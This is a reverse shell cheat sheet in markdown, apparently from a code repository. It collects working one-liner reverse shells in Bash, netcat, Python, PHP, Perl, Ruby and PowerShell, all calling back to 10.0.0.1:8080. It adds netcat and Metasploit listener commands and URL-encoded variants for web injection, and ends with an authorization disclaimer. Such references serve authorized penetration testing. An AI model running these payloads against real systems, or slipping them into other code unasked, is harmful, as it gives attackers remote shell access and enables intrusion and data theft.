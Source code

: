 # Reverse Shell Cheat Sheet

## Bash Reverse Shells

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'
bash -c "bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"
```

## Netcat Reverse Shells

### Traditional Netcat
```bash
nc -e /bin/sh 10.0.0.1 8080
nc -e /bin/bash 10.0.0.1 8080
nc -c bash 10.0.0.1 8080
```

### Netcat without -e flag
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 8080 >/tmp/f
nc 10.0.0.1 8080 | /bin/bash | nc 10.0.0.1 8081  # Listener both ports 8080 and 8081
```

## Python Reverse Shells

### Python 2
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Python 3
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP Reverse Shells

### Basic PHP Shell
```php
php -r '$sock=fsockopen("10.0.0.1",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### PHP One-liner
```php
<?php system("bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'"); ?>
```

## Perl Reverse Shell
```perl
perl -e 'use Socket;$i="10.0.0.1";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Ruby Reverse Shell
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## PowerShell Reverse Shell
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Listener Commands

### Netcat Listener
```bash
nc -lvp 8080
nc -lvnp 8080  # More verbose
```

### Metasploit Listener
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp  # Example payload
set LHOST 10.0.0.1
set LPORT 8080
run
```

## Notes

1. Replace `10.0.0.1` with your attacking machine's IP address
2. Replace `8080` with your desired port number
3. Some shells may need URL encoding if used in web applications
4. Consider using TLS/SSL for encrypted shells in sensitive environments
5. Always ensure you have proper authorization before using these commands

## URL Encoded Versions
Common shells URL encoded for web injection:

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
%62%61%73%68%20%2D%69%20%3E%26%20%2F%64%65%76%2F%74%63%70%2F%31%30%2E%30%2E%30%2E%31%2F%38%30%38%30%20%30%3E%26%31

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 8080 >/tmp/f
%72%6D%20%2F%74%6D%70%2F%66%3B%6D%6B%66%69%66%6F%20%2F%74%6D%70%2F%66%3B%63%61%74%20%2F%74%6D%70%2F%66%7C%2F%62%69%6E%2F%73%68%20%2D%69%20%32%3E%26%31%7C%6E%63%20%31%30%2E%30%2E%30%2E%31%20%38%30%38%30%20%3E%2F%74%6D%70%2F%66
```

## Security Note
⚠️ These commands are for educational purposes and authorized penetration testing only. Unauthorized use may be illegal.
